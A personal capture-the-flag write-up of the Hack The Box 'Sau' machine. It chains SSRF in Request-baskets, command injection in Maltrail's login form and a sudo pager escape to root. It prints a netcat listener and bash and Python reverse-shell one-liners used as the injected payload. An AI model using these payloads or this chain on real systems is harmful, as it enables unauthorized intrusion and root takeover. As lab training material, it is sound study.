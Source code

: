 Sau is a machine on HTB. It's a **Linux** box, which hosts a **`Request-baskets`-service**. We use **Serverside request forgery** to bypass the server's firewall. We then use **command-injection** in a the login-form of a Mailserver to get a foothold. Finally, we use a **sudo-misconfiguration** to open a **pager** as the root-user.

I am given just an IP address. As standard, I start with an `nmap` scan, to start getting a feel for the server. We use `-sV` and `-sC`, which are scripts that wil find the services and their version running on the server, as well as some other useful information.
```bash
nmap -sC -sV -oN nmap/initial.out 10.10.11.224
```
We get the following output (snippet):
```bash
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp    filtered http
55555/tcp open     unknown
```
This tells us that there seems to be an HTTP version running on port 80, but its traffic is filtered. Indeed, when we try to access this page by navigating to `http://10.10.11.224:80` in our browser, we cannot get a connection.

Then there's also the unknown service running on 55555. We navigate to `http://10.10.11.224:55555` and find that a service called `Request-baskets 1.2.1` is running there. It seems to be some application which allows a user to generate a link from which HTTP requests are logged.

We look for a possible exploit for this service and find that it is susceptible to [Serverside Request Forgery](https://nvd.nist.gov/vuln/detail/CVE-2023-27163). The application allows users to configure an address that all requests into the buckets are forwarded to. It then also allows the forwarding of that address' response back to the requester. The crucial point is that the forwarded request will be made from the target machine, meaning we can send the request to a webservice on the same machine and bypass any firewall that filters incoming traffic. This firewall will not block requests coming from the same machine ofcourse. So, we can use this bucket as a proxy for communicating with another webservice on the machine. Of course, we remember the filtered 80 port with HTTP on it, which we can probably now access.

So we generate a bucket and change the settings such that requests are forwarded to `http://localhost:80` and responses are forwarded back to us. We then send a basic GET request to the bucket and indeed find that we get the `html` file from port 80. Nice!

The page we see is very barebones, but we can see that this port has a service running called `Maltrail 0.53`. We search for any known exploits and find that the service is susceptible to [Command Injection](https://github.com/spookier/Maltrail-v0.53-Exploit). There is a login page over at `/login` and when checking the supplied `username` data, it uses `subprocess.check_output()` to log the username using a shell command. It however does not sanitize this `username` input, so we can inject arbitrary commands into it. 

We download the [python script](https://github.com/spookier/Maltrail-v0.53-Exploit) which uses this exploit. At this point, because I am actively trying to learn, I try to stay away from running convenient scripts and instead figure out how to do things manually. Thus instead of simply running the script I look at its source code to see what is going on under the hood.

I see that the script sends a POST request with a payload containing the to-be-injected command to the `/login` directory. Of course, this script assumes that we have direct acccess to the Maltrail service at port 80, but we do not, so we would have to send the request to the bucket proxy.

The script used a pretty involved string - even encoded into base64 - as a request to the webservice, most of which I did not understand. Thus I wanted to craft my own POST request. I had quite some trouble getting any code execution this way. Mostly because of 2 reasons:
1. I am not familiar with the syntax of injections like these. So I was unsure how exactly to format this string and the script had no explanation for it.
2. I did not get the standard out as the response to the GET request. It always just responded with "Login Failed". So while I knew from the exploit that code execution was happening/possible, I had no idea what the output of any of my commands were.

These two things combined made it quite difficult to craft a working POST request of my own and I was not able to get code execution going. In the end, I decided to use the script after all. At some point I hope to learn how and why the script had the specific command syntax with the base64 encoding, but that was not today.

First, I got an `nc` listener going on my machine
```bash
nc -lnvp 1337
```
Then I tried the reverse shell command I most often use as the `payload`:
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1337 0>&1'
```
But that did not seem to execute correctly on the server. However, Maltrain is mostly built using Python, so I knew the server must have python installed. I found a reverse shell command using python:
```bash
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```
Using this as the `payload` we finally get a reverse shell going! Using `id` we find that we are running the shell as a user called `puma`. In their home directory, we find the `user.txt` flag and as such we complete the first part of the box.

Now onto the root flag. This flag is (always) in a file `/root/root.txt` which is owned and only readable by the root user. Thus now we need to find a way to escalate our prvivileges to root.  I use the following command to see what `sudo` privileges this user has:
```bash
sudo -l
```
We find the following output:
```
(ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
This means that this user can execture the `systemctl status trail.service` command as root, without supplying a password. This is a command that retrieves the status of the `trail.service` service, which turns out to be the service associated with Maltrail. Since this configuration would never occur on a normalm machine, I assume this is indeed the right direction to keep looking. 

We search for some known exploits for `systemctl status`. While not explicitely an exploit per se, we find that the result of this command is opened in a pager, like `less`. The crucial point is that from that pager, we can actually spawn another shell, using `!sh`. However, since the pager run as root, this spawned shell will also run as root.

Being the root user now, we can `cat` out the contents of the `/root/root.txt` flag and we have officially hacked this box!
